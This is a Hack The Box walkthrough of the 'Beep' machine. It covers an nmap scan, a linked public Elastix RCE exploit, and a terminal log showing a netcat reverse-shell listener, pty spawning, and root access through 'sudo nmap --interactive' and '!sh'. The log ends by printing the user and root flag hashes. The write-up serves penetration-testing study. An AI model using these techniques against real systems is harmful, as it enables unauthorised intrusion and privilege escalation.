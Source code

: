 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit]
image:
    path: /Vulnhub-Files/img/Beep/front.png
    alt: https://www.hackthebox.com/achievement/machine/595651/5
---
```


### Let see the IP Address first →

```bash
IP : 10.10.10.7
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.10.7      
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-07-19 19:47 IST
Nmap scan report for 10.10.10.7
Host is up (0.19s latency).
Not shown: 65520 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp?
|_smtp-commands: Couldnt establish connection on port 25
80/tcp   open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https:/10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp  open  pop3?
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp  open  imap?
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2023-07-19T14:49:38+00:00; +2s from scanner time.
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp  open  status     1 (RPC #100024)
993/tcp  open  imaps?
995/tcp  open  pop3s?
3306/tcp open  mysql      MySQL (unauthorized)
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax?
5038/tcp open  asterisk   Asterisk Call Manager 1.1
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1s
```

## Web Enumeration ➡️

This site doesn’t work with that old TLS 1.2 version of firefox browser so I redirected the site with the help of burpuite →

![Untitled](/Vulnhub-Files/img/Beep/Untitled.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%201.png)

Now lets see the site →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%202.png)

Now I recon about elastix exploit and I found one exploit interesting which leads to RCE directly so let’s try it out now → [*Exploit*](https://www.exploit-db.com/exploits/18650)

But this exploit needs modification so I find this exploit modified from this [**site**](https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/) and use it →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%204.png)

In response to that I got a reverse shell as directed and after following this exploit path I got root too →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.213] from (UNKNOWN) [10.10.10.7] 38362
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ whoami
whoami
asterisk
bash-3.2$ pwd
pwd
/tmp
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http:/www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# cd /root
cd /root
sh-3.2# ls -al
ls -al
total 16308
drwxr-x---  2 root root     4096 Jul 16  2019 .
drwxr-xr-x 22 root root     4096 Jul 19 13:15 ..
-rw-------  1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-rw-------  1 root root     1067 Aug 25  2017 .bash_history
-rw-r--r--  1 root root       24 Jan  6  2007 .bash_logout
-rw-r--r--  1 root root      191 Jan  6  2007 .bash_profile
-rw-r--r--  1 root root      176 Jan  6  2007 .bashrc
-rw-r--r--  1 root root      100 Jan  6  2007 .cshrc
-r-xr-xr-x  1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r--  1 root root    18433 Apr  7  2017 install.log
-rw-r--r--  1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r--  1 root root        1 Apr  7  2017 postnochroot
-rw-------  1 root root       33 Jul 19 13:15 root.txt
-rw-r--r--  1 root root      129 Jan  6  2007 .tcshrc
-r-xr-xr-x  1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
sh-3.2# cat root.txt
cat root.txt
e9cbc82da8917eed8f46488876238fa2
sh-3.2# ls -al /home
ls -al /home
total 28
drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
drwxr-xr-x 22 root       root       4096 Jul 19 13:15 ..
drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
sh-3.2# cd /home/fanis 
cd /home/fanis
sh-3.2# ls -al
ls -al
total 32
drwxrwxr-x 2 fanis fanis 4096 Apr  7  2017 .
drwxr-xr-x 4 root  root  4096 Apr  7  2017 ..
-rw------- 1 fanis fanis  114 Apr  7  2017 .bash_history
-rw-r--r-- 1 fanis fanis   33 Apr  7  2017 .bash_logout
-rw-r--r-- 1 fanis fanis  176 Apr  7  2017 .bash_profile
-rw-r--r-- 1 fanis fanis  124 Apr  7  2017 .bashrc
-rw-rw-r-- 1 fanis fanis   33 Jul 19 13:15 user.txt
sh-3.2# cat user.txt
cat user.txt
e11bbf4e23bcd880ec590402fa0c9a8e
sh-3.2#
```